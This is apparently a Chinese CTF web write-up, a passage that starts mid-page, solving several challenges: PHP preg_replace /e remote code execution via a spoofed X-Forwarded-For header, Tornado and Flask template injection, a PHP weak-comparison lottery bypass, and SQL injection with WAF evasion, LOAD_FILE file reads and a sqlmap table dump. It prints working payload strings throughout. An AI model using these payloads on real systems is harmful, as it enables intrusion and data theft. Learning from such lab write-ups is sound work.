    <script src="layui/layui.js" charset="utf-8"></script>
    <script>
    layui.use('table', function() {
        var table = layui.table,
            form = layui.form;

        table.render({
            elem: '#test',
            url: '/somrthing.json',
            cellMinWidth: 80,
            cols: [
                [
                    { type: 'numbers' },
                     { type: 'checkbox' },
                     { field: 'id', title: 'ID', width: 100, unresize: true, sort: true },
                     { field: 'name', title: '设备名', templet: '#nameTpl' },
                     { field: 'area', title: '区域' },
                     { field: 'status', title: '维护状态', minWidth: 120, sort: true },
                     { field: 'check', title: '设备开关', width: 85, templet: '#switchTpl', unresize: true }
                ]
            ],
            page: true
        });
    });
    </script>
    <script>
    layui.use('element', function() {
        var element = layui.element; //导航的hover效果、二级菜单等功能，需要依赖element模块
        //监听导航点击
        element.on('nav(demo)', function(elem) {
            //console.log(elem)
            layer.msg(elem.text());
        });
    });
    </script>

<?php

$page = $_GET[page];

if (isset($page)) {

if (ctype_alnum($page)) {
?>

    <br /><br /><br /><br />
    <div style="text-align:center">
        <p class="lead"><?php echo $page; die();?></p>
    <br /><br /><br /><br />

<?php

}else{

?>
        <br /><br /><br /><br />
        <div style="text-align:center">
            <p class="lead">
                <?php

                if (strpos($page, 'input') > 0) {
                    die();
                }

                if (strpos($page, 'ta:text') > 0) {
                    die();
                }

                if (strpos($page, 'text') > 0) {
                    die();
                }

                if ($page === 'index.php') {
                    die('Ok');
                }
                    include($page);
                    die();
                ?>
        </p>
        <br /><br /><br /><br />

<?php
}}

//方便的实现输入输出的功能,正在开发中的功能，只能内部人员测试

if ($_SERVER['HTTP_X_FORWARDED_FOR'] === '127.0.0.1') {

    echo "<br >Welcome My Admin ! <br >";

    $pattern = $_GET[pat];
    $replacement = $_GET[rep];
    $subject = $_GET[sub];

    if (isset($pattern) && isset($replacement) && isset($subject)) {
        preg_replace($pattern, $replacement, $subject);
    }else{
        die();
    }

}

?>

</body>

</html>
```

得到page参数的作用是：

```php
<?php
$page = $_GET[page];
if (isset($page)) {
if (ctype_alnum($page)) {
?>
    <br /><br /><br /><br />
    <div style="text-align:center">
        <p class="lead"><?php echo $page; die();?></p>
    <br /><br /><br /><br />
```

检测page参数是否全为字母数字，如果是就输出page内容

同时得到真正有用的代码：

```php
if ($_SERVER['HTTP_X_FORWARDED_FOR'] === '127.0.0.1') {
    echo "<br >Welcome My Admin ! <br >";
    $pattern = $_GET[pat];
    $replacement = $_GET[rep];
    $subject = $_GET[sub];
    if (isset($pattern) && isset($replacement) && isset($subject)) {
        preg_replace($pattern, $replacement, $subject);
    }else{
        die();
    }
}
```

[PHP: preg_replace - Manual](https://www.php.net/manual/zh/function.preg-replace.php)

当 `preg_replace` 的第一个参数 `$pattern` 包含 `/e` 修正符时，第二个参数 `$replacement` 会被当作 **PHP 代码** 执行。

- **逻辑：** 只要 `$pattern` 匹配到了 `$subject` 中的内容，`$replacement` 里的字符串就会被传递给 `eval()` 执行。
- **Payload 构造原理：**
  - `$pattern`: `/(.*)/e` （匹配任何内容，并开启执行模式）
  - `$replacement`: `system('ls')` （你想执行的命令）
  - `$subject`: `any_text` （触发匹配的任意字符）

这样只需要抓包让XFF为`127.0.0.1`同时构造payload就可以利用preg_replace达成RCE了



达成RCE，接下来查找flag即可

```text
?pat=/(.*)/e&rep=system('find+-name+*flag*')&sub=a
```

（记得给rep参数url编码否则会bad request）

```text
<br >Welcome My Admin ! <br >./s3chahahaDir/flag ./s3chahahaDir/flag/flag.php ./s3chahahaDir/flag ./s3chahahaDir/flag/flag.php
```

```text
?pat=/(.*)/e&rep=system('cat+./s3chahahaDir/flag/flag.php')&sub=a
```

```php
<?php

$flag = 'cyberpeace{959d1c90a014d073bdf06d41708ab1b5}';

?>
```

得到flag

## easytornado

进入网页有三个链接

```text
/flag.txt
flag in /fllllllllllllag
/welcome.txt
render
/hints.txt
md5(cookie_secret+md5(filename))
```

从`/flag.txt`知道flag在`/fllllllllllllag`下，其次从url：`http://61.147.171.103:51990/file?filename=/flag.txt&filehash=ea83715808b6cb7cf68a7a8e83e828be`不难猜出，访问方式是通过`file?filename=/fllllllllllllag&filehash=…`，所以目的就是找出`filehash`，从`/welcome.txt`的render明显能知道这题在考ssti，而从`hints.txt`的内容大概猜出`filehash`的值是`md5(cookie_secret+md5(fllllllllllllag))`，那么最终目的就是找出`cookie_secret`，先用dirsearch扫一下，发现

```text
[14:09:05] Scanning:
[14:09:13] 200 -    87B - /error
[14:09:13] 301 -     0B - /file  ->  /error?msg=Error
```

发现msg处为模板注入的洞口，但过滤了很多，小括号中括号竖杠下划线全都过滤了，感觉是只能想办法找cookie_secret了，于是去github下载tornado源码再查找cookie_secret



在这里发现`CookieTestRequestHandler`类在初始化时会生成一个`setting`字典，里面包含`cookie_secret`的键值对，而后面还调用过这个字典



那我们就可以直接参考这个调用的手法，去在题目中找到`cookie_secret`了，由于下划线被过滤，就无法直接用`.get(cookie_secret)`了，但似乎直接用`{{handler.application.settings}}`会把整个字典打印出来

```python
{'autoreload': True, 'compiled_template_cache': False, 'cookie_secret': '02dcdb12-36c5-46ec-9615-cb348769fdd2'}
```

## shrine

进入页面显示源代码：

```python
import flask
import os

app = flask.Flask(__name__)#标准的flask初始化语句，创建一个web应用实例

app.config['FLAG'] = os.environ.pop('FLAG')#通过键名将'FLAG'从系统环境变量中取出放到config字典中

@app.route('/')
def index():
    return open(__file__).read()#在根目录展示应用程序源代码

@app.route('/shrine/<path:shrine>')#path匹配包含/的任意字符串
def shrine(shrine):#接收url路径中匹配到的shrine字符串作参数

    def safe_jinja(s):
        s = s.replace('(', '').replace(')', '')#过滤小括号
        blacklist = ['config', 'self']#过滤config,self
        return ''.join(['{}'.format(c) for c in blacklist]) + s

    return flask.render_template_string(safe_jinja(shrine))

if __name__ == '__main__':
    app.run(debug=True)
```

从`return flask.render_template_string(safe_jinja(shrine))`明显知道是ssti，从`app.config['FLAG'] = os.environ.pop('FLAG')`知道想得到flag需要读取`app.config`，这里过滤了config和self，是为了防止直接使用`{{ config }}`或`{{ self.__init__.__globals__['current_app'].config }}`，但了解到除此之外还有`url_for`和`get_flashed_messages`可以利用

<https://www.freebuf.com/articles/web/359392.html>



于是就可以直接构造payload如下读取到FLAG：

## lottery

进网页发现是个彩票网站，`index.php`处介绍规则为猜7个数字来买彩票，猜中的个数越多奖金越高，可以在`buy.php`处进行彩票购买，`account.php`显示当前账户余额，`market.php`处售卖flag为9990000刀，题目附件给了源码，不过其实用dirsearch扫一下就会发现`robots.txt`里面记录了`.git`或者直接就把`.git`全扫出来了，所以用githack挖一下也能把网页源码全刨出来

bp抓包发现猜彩票和买flag过程都会调用`api.php`，查看源码发现抽奖源码主要如下：

```php
// my boss told me to use cryptographically secure algorithm 
function random_num(){
	do {
		$byte = openssl_random_pseudo_bytes(10, $cstrong);
		$num = ord($byte);
	} while ($num >= 250);

	if(!$cstrong){
		response_error('server need be checked, tell admin');
	}
	
	$num /= 25;
	return strval(floor($num));
}

function random_win_nums(){
	$result = '';
	for($i=0; $i<7; $i++){
		$result .= random_num();
	}
	return $result;
}

function buy($req){
	require_registered();
	require_min_money(2);

	$money = $_SESSION['money'];
	$numbers = $req['numbers'];
	$win_numbers = random_win_nums();
	$same_count = 0;
	for($i=0; $i<7; $i++){
		if($numbers[$i] == $win_numbers[$i]){
			$same_count++;
		}
	}
	switch ($same_count) {
		case 2:
			$prize = 5;
			break;
		case 3:
			$prize = 20;
			break;
		case 4:
			$prize = 300;
			break;
		case 5:
			$prize = 1800;
			break;
		case 6:
			$prize = 200000;
			break;
		case 7:
			$prize = 5000000;
			break;
		default:
			$prize = 0;
			break;
	}
	$money += $prize - 2;
	$_SESSION['money'] = $money;
	response(['status'=>'ok','numbers'=>$numbers, 'win_numbers'=>$win_numbers, 'money'=>$money, 'prize'=>$prize]);
}
```

很明显发现这里中奖号码的比较是：

```php
if($numbers[$i] == $win_numbers[$i])
```

是弱类型比较`==`而非`===`

- `true == "any string"` 是 `true`。
- `false == ""` 是 `true`。

那就可以直接bp抓包改发送的数值全为`true`的数组重放就行了，只要遇到的数字不是0就算`same_count++`，多试几轮就攒够钱买flag了



## fakebook

进页面先拿dirsearch扫一下扫出来很多：



扫到了`flag.php`，应该后面要用到

在`robots.txt`发现：

```text
User-agent: *
Disallow: /user.php.bak
```

访问并下载`user.php`备份文件发现内容如下：

```php
<?php

class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";

    public function __construct($name, $age, $blog)
    {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }

    function get($url)
    {
        $ch = curl_init();

        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }

    public function getBlogContents ()
    {
        return $this->get($this->blog);
    }

    public function isValidBlog ()
    {
        $blog = $this->blog;abcdefghijklmn
        return preg_match("/^(((http(s?))\\:\\/\\/)?)([0-9a-zA-Z\\-]+\\.)+[a-zA-Z]{2,6}(\\:[0-9]+)?(\\/\\S*)?$/i", $blog);
    }

}
```

审计代码，感觉有反序列化

类`UserInfo`用来存用户信息

`isValidBlog`公有方法用来校验`blog`的合法性，是否是`url`格式的，要求有数字或大小写字母的域名加点加长度限定2~6位的顶级域名，http或https和端口可选

`get`私有方法用来抓取`blog`的内容，如果是404则返回404

`getBlogContents`公有方法为对外提供的公共接口，用来类内调用私有`get`方法

在`view.php`发现如下内容：

```text
Notice: Undefined index: no in /var/www/html/view.php on line 24
[*] query error! (You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '' at line 1)

Fatal error: Call to a member function fetch_assoc() on boolean in /var/www/html/db.php on line 66
```

感觉有SQL注入

再回去先看页面，有login登录和join注册两个按钮，由前面的代码审计知道blog要填个网址，join注册后显示


点user发现进入之前扫到的`view.php`，这次多带了个参数`?no=1`，猜测这就是sql注入点，拿sqlmap测测



有sql注入漏洞但只扫到布尔盲注和时间盲注，但注意到这里有个

```text
[14:58:04] [INFO] POST parameter 'username' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
[14:58:04] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[14:58:04] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[14:58:04] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[14:58:04] [INFO] target URL appears to have 4 columns in query
do you want to (re)try to find proper UNION column types with fuzzy test? [y/N] N
```

因为懒直接用的`—batch`，把记录删了重新试一下union

```text
[15:09:08] [INFO] target URL appears to have 4 columns in query
do you want to (re)try to find proper UNION column types with fuzzy test? [y/N] y
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] y
[15:09:40] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql')
[15:09:46] [INFO] target URL appears to be UNION injectable with 4 columns
```

似乎能测出来是4列，联合查询也是injectable的，但似乎又被waf拦了，手动注入一下



被拦，可能是匹配`UNION SELECT`，尝试绕过，一般就是注释，大小写，双写，用`/**/`似乎就成了

```text
?no=2/**/**union/****/select/**/1,2,3,4#
```



明显`username`处会回显，也就是2的位置，然后根据前面dirsearch扫到的`flag.php`，直接把第二列替换成MySQL的`LOAD_FILE`函数应该就能回显flag

```text
?no=2/****/union/****/select/**/1,LOAD_FILE("/var/www/html/flag.php"),3,4#
```



不过似乎并没用到反序列化，从网上学到还有很多方法，似乎用注册时抓的post包给sqlmap可以直接脱库

```text
Database: fakebook
Table: users
[8 entries]
+------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+----------------------------------------------------------------------------------------------------------------------------------------+------------------------------------------------------------------------------------------------------+
| no   | data                                                                                                                                                                                                                      | passwd                                                                                                                                 | username                                                                                             |
+------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+----------------------------------------------------------------------------------------------------------------------------------------+------------------------------------------------------------------------------------------------------+
| 1    | O:8:"UserInfo":3:{s:4:"name";s:4:"user";s:3:"age";i:20;s:4:"blog";s:8:"user.com";}                                                                                                                                        | 3c9909afec25354d551dae21590bb26e38d53f2173b8d3dc3eee4c047e7ab1c1eb8b85103e3be7ba613b31bb5c9c36214dc9f14a42fd7a2fdb84856bca5c44c2 (123) | user                                                                                                 |
| 2    | O:8:"UserInfo":3:{s:4:"name";s:4:"8046";s:3:"age";i:20;s:4:"blog";s:8:"user.com";}                                                                                                                                        | 3c9909afec25354d551dae21590bb26e38d53f2173b8d3dc3eee4c047e7ab1c1eb8b85103e3be7ba613b31bb5c9c36214dc9f14a42fd7a2fdb84856bca5c44c2 (123) | 8046                                                                                                 |
| 3    | O:8:"UserInfo":3:{s:4:"name";s:36:"user' AND 4691=3167 AND 'Brys'='Brys";s:3:"age";i:20;s:4:"blog";s:8:"user.com";}                                                                                                       | 3c9909afec25354d551dae21590bb26e38d53f2173b8d3dc3eee4c047e7ab1c1eb8b85103e3be7ba613b31bb5c9c36214dc9f14a42fd7a2fdb84856bca5c44c2 (123) | user' AND 4691=3167 AND 'Brys'='Brys                                                                 |
| 4    | O:8:"UserInfo":3:{s:4:"name";s:36:"user' AND 8775=2167 AND 'yXfs'='yXfs";s:3:"age";i:20;s:4:"blog";s:8:"user.com";}                                                                                                       | 3c9909afec25354d551dae21590bb26e38d53f2173b8d3dc3eee4c047e7ab1c1eb8b85103e3be7ba613b31bb5c9c36214dc9f14a42fd7a2fdb84856bca5c44c2 (123) | user' AND 8775=2167 AND 'yXfs'='yXfs                                                                 |
| 5    | O:8:"UserInfo":3:{s:4:"name";s:53:"user' AND (SELECT 0x564f596b)='tMYw' AND 'KsTL'='KsTL";s:3:"age";i:20;s:4:"blog";s:8:"user.com";}                                                                                      | 3c9909afec25354d551dae21590bb26e38d53f2173b8d3dc3eee4c047e7ab1c1eb8b85103e3be7ba613b31bb5c9c36214dc9f14a42fd7a2fdb84856bca5c44c2 (123) | user' AND (SELECT 0x564f596b)='tMYw' AND 'KsTL'='KsTL                                                |
| 6    | O:8:"UserInfo":3:{s:4:"name";s:137:"user' AND JSON_KEYS((SELECT CONVERT((SELECT CONCAT(0x71706a7071,(SELECT (ELT(5212=5212,1))),0x71706a7171)) USING utf8))) AND 'wkzO'='wkzO";s:3:"age";i:20;s:4:"blog";s:8:"user.com";} | 3c9909afec25354d551dae21590bb26e38d53f2173b8d3dc3eee4c047e7ab1c1eb8b85103e3be7ba613b31bb5c9c36214dc9f14a42fd7a2fdb84856bca5c44c2 (123) | user' AND JSON_KEYS((SELECT CONVERT((SELECT CONCAT(0x71706a7071,(SELECT (ELT(5212=5212,1))),0x71706a |
| 7    | O:8:"UserInfo":3:{s:4:"name";s:98:"(SELECT CONCAT(CONCAT(0x71706a7071,(CASE WHEN (4057=4057) THEN 0x31 ELSE 0x30 END)),0x71706a7171))";s:3:"age";i:20;s:4:"blog";s:8:"user.com";}                                         | 3c9909afec25354d551dae21590bb26e38d53f2173b8d3dc3eee4c047e7ab1c1eb8b85103e3be7ba613b31bb5c9c36214dc9f14a42fd7a2fdb84856bca5c44c2 (123) | (SELECT CONCAT(CONCAT(0x71706a7071,(CASE WHEN (4057=4057) THEN 0x31 ELSE 0x30 END)),0x71706a7171))   |
| 8    | O:8:"UserInfo":3:{s:4:"name";s:61:"(SELECT CONCAT(0x71706a7071,(ELT(9674=9674,1)),0x71706a7171))";s:3:"age";i:20;s:4:"blog";s:8:"user.com";}                                                                              | 3c9909afec25354d551dae21590bb26e38d53f2173b8d3dc3eee4c047e7ab1c1eb8b85103e3be7ba613b31bb5c9c36214dc9f14a42fd7a2fdb84856bca5c44c2 (123) | (SELECT CONCAT(0x71706a7071,(ELT(9674=9674,1)),0x71706a7171))                                        |
+------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+----------------------------------------------------------------------------------------------------------------------------------------+------------------------------------------------------------------------------------------------------+
```

发现data都是序列化的内容，而前面测试联合查询的时候报错了反序列化


no和1对上，username和user对上，passwd和123的哈希值对上，那data就和序列化内容对上，包含name、user、age、blog，那猜测`union select 1,2,3,4#`对应的就是`no,username,passwd,data`，于是尝试更改4的值让他反序列化成功

```text
?no=2 union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:4:"user";s:3:"age";i:20;s:4:"blog";s:8:"user.com";}'#
```



发现界面age和blog显示了data中的内容，于是就可以用SSRF服务端请求伪造漏洞，更改序列化内容中blog的值利用file文件协议去读取服务器上的`flag.php`文件

```text
